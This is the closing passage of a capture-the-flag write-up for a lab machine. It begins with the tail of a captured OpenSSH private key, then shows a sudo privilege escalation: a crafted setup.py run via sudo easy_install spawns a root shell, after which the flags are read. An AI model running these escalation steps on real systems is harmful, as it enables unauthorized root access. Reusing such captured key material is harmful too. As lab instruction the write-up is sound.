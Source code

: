 ```console
wCb5o0xFjJbF8PuSasQO7FSW+TIjKH9EV/5Uy7BRCpUngxw30L7altfJ6nLGb2a3ZIi66p
0QY/HBIGREw74gfivt4g+lpPjD23TTMwYuVkr56aoxUIGIX84d/HuDTZL9at5gxCvB3oz5
VkKpZSWCnbuUVqnSFpHytRgjCx5f+inb++AzR4l2/ktrVl6fyiNAAiDs0aurHynsMNUjvO
N8WLHlBgS6IDcmEqhgXXbEmUTY53WdDhSbHZJo0PF2GRCnNQAAAMEAyuRjcawrbEZgEUXW
z3vcoZFjdpU0j9NSGaOyhxMEiFNwmf9xZ96+7xOlcVYoDxelx49LbYDcUq6g2O324qAmRR
RtUPADO3MPlUfI0g8qxqWn1VSiQBlUFpw54GIcuSoD0BronWdjicUP0fzVecjkEQ0hp7gu
gNyFi4s68suDESmL5FCOWUuklrpkNENk7jzjhlzs3gdfU0IRCVpfmiT7LDGwX9YLfsVXtJ
mtpd5SG55TJuGJqXCyeM+U0DBdxsT5AAAAwQDDfs/CULeQUO+2Ij9rWAlKaTEKLkmZjSqB
2d9yJVHHzGPe1DZfRu0nYYonz5bfqoAh2GnYwvIp0h3nzzQo2Svv3/ugRCQwGoFP1zs1aa
ZSESqGN9EfOnUqvQa317rHnO3moDWTnYDbynVJuiQHlDaSCyf+uaZoCMINSG5IOC/4Sj0v
3zga8EzubgwnpU7r9hN2jWboCCIOeDtvXFv08KT8pFDCCA+sMa5uoWQlBqmsOWCLvtaOWe
N4jA+ppn1+3e0AAAASZGV2ZWxvcGVyQHNpdGVpc3VwAQ==
-----END OPENSSH PRIVATE KEY-----
```

This next part is even easier and a bit underwhelming.

Running sudo -l shows we have sudo rights for easy_install.


```console
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```


If we go and check out easy_install on GTFObins we get a quick sudo command for PE

https://gtfobins.github.io/gtfobins/easy_install/

Input the command and we have root!

```console
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.SizFBjbMBL
Writing /tmp/tmp.SizFBjbMBL/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.SizFBjbMBL/egg-dist-tmp-CEKvME
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
Cat the flags and we are done!

```console
# cat user.txt
673b7***************************
# cat /root/root.txt
f2072***************************
```

GG!
